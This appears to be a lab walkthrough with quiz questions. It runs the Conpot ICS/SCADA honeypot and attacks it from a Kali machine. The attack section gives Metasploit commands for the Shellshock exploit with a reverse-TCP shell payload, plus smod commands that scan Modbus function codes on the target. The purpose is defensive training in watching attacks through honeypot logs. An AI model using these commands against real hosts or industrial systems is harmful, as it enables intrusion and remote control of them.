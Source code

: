 _The Conpot honeypot_ is a noteworthy tool in cybersecurity, offering a sophisticated solution for identifying and mitigating cyber threats. Designed specifically to emulate industrial control systems (ICS) and supervisory control and data acquisition (SCADA) environments, Conpot aims to attract and engage malicious actors targeting critical infrastructure networks. This allows cybersecurity professionals to gain valuable insights into the techniques, tactics, and procedures used by adversaries. By simulating industrial control protocols and devices, Conpot effectively lures potential attackers into a controlled environment, ensuring their actions are closely monitored without exposing actual operational assets to risk.

Conpot's modular architecture and adaptable configurations enhance its efficacy, allowing security practitioners to tailor the emulated environment to match specific industrial protocols. This makes Conpot an indispensable tool for sectors such as energy, manufacturing, and utilities. Additionally, the open-source nature of the framework fosters collaboration, enabling a community of experts to contribute to its evolution and enhance its capabilities against evolving threats.

What term refers to a cybersecurity decoy used to observe and analyze malicious activities?
**Honeypot**
# Snmp service

Previously used for simulating SCADA devices and attack techniques, the Conpot honeypot will now be employed to analyze insights into attacks and their potential to enhance system defense strategies.

Given that Conpot will activate its own SNMP service, it's vital to cease it before initiating the launch of Conpot.
`sudo service snmpd stop`

### Starting Conpot

_Conpot_ is an open-source honeypot software designed to emulate various industrial control systems (ICS) protocols, like Modbus, DNP3, and S7comm, enabling the creation of realistic-looking ICS environments to detect and analyze attacks, gather threat intelligence, and employ features such as logging, alerting, and SNMP server simulation.

First, log in as the user conpot:
`su conpot`

When prompted for the password, enter conpot:
`conpot`

Lastly, to initiate Conpot, enter the following command:
`/home/conpot/.local/bin/conpot --template default --logfile /var/log/conpot/conpot.log -f --temp_dir /tmp`

Which systems does Conpot aim to simulate?
ICS and SCADA
# Starting Metasploit Framework

Navigate to the _Kali Student machine_ where the Metasploit Framework will be launched and utilized to launch the attacks on the Target machine hosting the Conpot Honeypot.

Utilize the following command to launch the Metasploit Framework:
`msfconsole -L
### Metasploit Configuration

The purpose of this particular activity is to execute the Shellshock exploit, which has been utilized in previous experiments. This exploit targets the host system with the goal of compromising it. The primary objective of this exercise is to gather valuable insights into the mechanics of the attack.

On the _metasploit_ console, use the following command:
`use exploit/multi/http/apache_mod_cgi_bash_env_exec

Set the RHOST and RPORT variable to:
`set RHOSTS 192.168.1.102
`set RPORT 8800
`set the TARGETURI varible to:
`set TARGETURI /

And lastly set the Payload variable to:
`set PAYLOAD linux/x86/shell/reverse_tcp

Utilize the exploit command to run the exploit once you've concluded with setting the necessary variables:
`exploit

Once the exploit has been executed, type the following command to exit the Metasploit console: `exit`
# Conpot Honeypot log review

Shift the focus back to the _Ubuntu student machine_ and observe the Conpot output. Conpot's successful detection of the observed activity, along with the inclusion of the actual shellcode that the attacker intended to upload onto the Target host, is noteworthy.
### Starting smod

Now, navigate to the _Kali Student machine_, utilize the smod framework based on Python and Scapy, which has been **explicitly developed** for conducting penetration testing on the Modbus protocol. Which is part of the SCADA honeypot that was launched in the previous step.

To initiate the smod framework utilize the following command:
`python2.7 /opt/smod/smod.py
### Configuring Smod module

_The Smod_ interface closely mirrors that of Metasploit. For this exercise, we will use Smod's getfunc module, a tool designed to identify the Modbus function codes supported by the target device. To select the appropriate module, enter the following command:
`use modbus/scanner/getfunc

During the configuration process, it's important to define two crucial parameters: the _target IP address_ and the _unit ID_. Set these options exactly as outlined below:
`set RHOSTS 192.168.1.102
`set UID 1

To set the port for the Modbus service, use the following command:
`set RPORT 5020

To initiate the scanning process, execute the exploit command:
`exploit

While encountering errors during this process is possible, it will become apparent that the scanner successfully gathers the list of supported function codes-data provided by Conpot. It is advisable to refrain from exiting the Smod shell at this stage, as it will be needed for the following steps.

Which Modbus function code is used to write a single coil?
